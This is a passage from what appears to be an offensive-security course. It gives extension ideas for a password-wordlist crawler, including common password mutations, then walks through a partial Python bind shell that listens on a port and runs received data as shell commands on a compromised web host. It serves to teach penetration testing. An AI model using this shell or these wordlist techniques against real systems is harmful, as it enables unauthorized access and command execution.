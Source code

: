 
For the extra adventurous student, here is a list of ideas for further extension of the tool:

-   Add a `--output` / `-o` argument that lets us define an output file to print to instead of the console (something like `with open('path.txt', 'w') as wr:` and `wr.write(word)`).

-   Add common password mutations to the output, e.g., Capitalized, lowercase, UPPERCASE, and with various bits appended like the current and recent years, random numbers or symbols, e.g., 2019, 1!, 2!, 3!, 01, 123. `Summer2021!` and similar variations are depressingly frequent passwords.

-   Add a `--depth` / `-d` argument specifying the *crawl depth* of the script. This implies the ability to grab not only words but also URLs on the webpage(s), check if they are within scope (e.g., domain), and add them to a list of pages to crawl next.

-   The program currently crashes if a minimum length of 10 or higher is specified. Try to figure out why and fix it (hint: check out that last for-loop).

#### Questions

>Given a minimum word length of 9, what is the 3rd most frequent word on the target website?

# Turning it up to 11

## A Simple Bind Shell

* * * * *

Upon gaining access to an internal web service with the credentials we generated using the previous tool, we can get remote code execution on the web host. Trying to use our go-to reverse shells mysteriously does not seem to work, but we discover that we can execute arbitrary python scripts. Let us abuse that discovery by implementing and running our own Python `bind shell`.

A bind shell is at its core reasonably simple. It is a process that binds to an address and port on the host machine and then listens for incoming connections to the socket. When a connection is made, the bind shell will - repeatedly - listen for bytes being sent to it and treat them as raw commands to be executed on the system in a subprocess. Once it has received all bytes in chunks of some size, it will run the command on the host system and send back the output. A very naive implementation of such a bind shell is this:

#### A Simple Bind Shell

```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

```